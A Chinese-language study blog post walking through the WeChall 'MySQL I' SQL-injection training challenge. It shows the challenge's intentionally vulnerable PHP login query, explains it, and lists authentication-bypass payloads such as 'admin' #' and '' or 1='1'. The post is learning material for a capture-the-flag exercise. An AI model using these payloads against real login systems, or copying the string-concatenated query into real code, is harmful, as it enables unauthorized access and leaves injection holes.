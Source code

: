 ```yaml
---
layout: post
title: "wechall-mysql 1"
date: 2019-05-15
author: jjnoob
categories:
- 2019-05
tags:
- 
---
```


* content
{:toc}

> sql注入的学习. 看别人的writeup, 积累.

[参考 leehaming](https://blog.csdn.net/lee_ham/article/details/77185049)


# Wechall - Training: MySQL I (MySQL, Exploit, Training)

```
username: admin' or '1'='1
passowrd: anyone
```

# 源码

```sql
# TABLE STRUCTURE
CREATE TABLE IF NOT EXISTS users (
userid    INT(11) UNSIGNED AUTO_INCREMENT PRIMARY KEY, 
username  VARCHAR(32) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL,
password  CHAR(32) CHARACTER SET ascii COLLATE ascii_bin NOT NULL
) ENGINE=myISAM;
```
创建一个表users，表的三个列分别为userid，username，password


* `UNSIGNED` 无符号, 非负数, 可以增加数据长度.
* `CHARACTER SET utf8` 设置默认编码为utf8
* `COLLATE utf8_general_ci` 数据库校对规则。该三部分分别为数据库字符集、解释不明白、区分大小写.
* `collate` : 校对集，主要是对字符集之间的比较和排序.

```php
# Username and Password sent?

if ( ('' !== ($username = Common::getPostString('username'))) && (false !== ($password = Common::getPostString('password', false))) ) {
      auth1_onLogin($chall, $username, $password);
}
```
是判断用户名和密码是否已经发送给服务器

* `Common::getPostString`是调用已有函数，功能为从表单中获取字符串信息
* `auth1_onLogin`为下边的自定义函数，功能为验证用户名和密码


```php
/**
 * Get the database for this challenge.
 * @return GDO_Database
 */
function auth1_db()
{
        if (false === ($db = gdo_db_instance('localhost', WCC_AUTH_BYPASS1_USER, WCC_AUTH_BYPASS1_PASS, WCC_AUTH_BYPASS1_DB))) {
                die('Database error 0815_1!');
        }
        $db->setLogging(false);
        $db->setEMailOnError(false);
        return $db;
}
```

获取本题需要的数据库, 即登陆.


```php
/**
* Exploit this!
* @param WC_Challenge $chall
* @param unknown_type $username
* @param unknown_type $password
* @return boolean
*/
function auth1_onLogin(WC_Challenge $chall, $username, $password)
{
      $db = auth1_db();

      $password = md5($password);

      $query = "SELECT * FROM users WHERE username='$username' AND password='$password'";

      if (false === ($result = $db->queryFirst($query))) {
              echo GWF_HTML::error('Auth1', $chall->lang('err_unknown'), false); # Unknown user
              return false;
      }

      # Welcome back!
      echo GWF_HTML::message('Auth1', $chall->lang('msg_welcome_back', htmlspecialchars($result['username'])), false);

      # Challenge solved?
      if (strtolower($result['username']) === 'admin') {
              $chall->onChallengeSolved(GWF_Session::getUserID());
      }

      return true;
}
```


* 这部分就是之前提到的自定义函数，用来处理表单提交的数据。函数与表单之间通过参数`username`和`password`传递数据
* 从html表单中输入的username和password就可以代入到这里的query语句中就可以了。
* 接着`result=result=db->queryFirst($query)`处理MySQL语句并且将结果返回给result，如果查询结果不是false，说明结果存在。
* `$result[‘username’]) === ‘admin’`判断用户是否是admin，如果是说明管理员登录。
* 完成登陆过程。


<br />

# 注入
输入username和password使得执行query语句的结果存在并且用户名为Admin。但是由于我们不知道真实的admin的密码，所以我们想办法绕过password。即我们可以减少select的限制条件，通过将query中AND及其后边的语句在MySQL语句中注释掉，就可以将query改写为：
```sql
SELECT * FROM users WHERE username='admin'
```

单行注释:`#`和`–`

构造过程:
* username为：`admin' #`
* password不填

另外, 这种也是可以的:
```sql
admin' or '1'='1
anyone
```
常见的SQL诸如语句测试:
```sql
’ or ‘1’=’1 
’ or 1=1 – 
‘or’=’0’ 
“or 1=1 – 
or 1=1 – 
‘or’ a ‘=’ a 
“or” a “=” a
```

<br />

# Writeup 2


[参考博客园宋姑娘](https://www.cnblogs.com/dreamofus/p/5950844.html)


## 源码
* 判断方式:
```sql
"SELECT * FROM users WHERE username='$username' AND password='$password'";
```
* 而且有admin这个用户的特判

## 注入:
* 利用php的局部注释“#”可以进行攻击：
* username输入：`admin' and 1=1 #`

这里的代码将被翻译成:
```sql
username='admin' # and  password='$password'"
```
所以密码的验证将被忽略，可以作为admin登录


<br />

# SQL万能密码：`' or 1='1`

[参考friendan](https://blog.csdn.net/friendan/article/details/52215980)

```sql
select name,pass from tbAdmin where name='admin' and pass='123456'
```

输入用户名：`' or 1='1`

SQL变成:
```sql
select name,pass from tbAdmin where name='' or 1='1' and pass='123456'
```

`1='1'` 永远为真，所以就验证通过.
